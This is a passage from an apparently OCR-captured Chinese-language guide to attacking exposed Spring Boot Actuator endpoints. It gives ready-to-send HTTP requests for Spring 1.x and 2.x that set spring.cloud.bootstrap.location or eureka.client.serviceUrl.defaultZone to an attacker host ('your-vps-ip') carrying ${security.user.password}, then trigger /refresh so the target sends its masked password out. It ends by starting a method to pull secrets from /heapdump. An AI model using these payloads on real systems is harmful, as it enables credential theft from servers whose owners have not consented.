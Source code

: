 spring 2.x
```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```

- eureka.client.serviceUrl.defaultZone 方法（**不适用**于明文数据中有特殊 url 字符的情况）

spring 1.x
```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}

```

spring 2.x
```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```

4. 刷新配置

spring 1.x
```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x
```
POST /actuator/refresh
Content-Type: application/json
```

![](https://gitee.com/ryuzusunc/archives/raw/master/img/设置属性获取脱敏信息.png)

### 分析内存获取脱敏信息

**利用条件**

- 可正常 GET 请求目标 /heapdump 或 /actuator/heapdump 接口

**利用方法**

1. 找到想要获取的属性名

GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

1. 下载 jvm heap 信息
>下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G
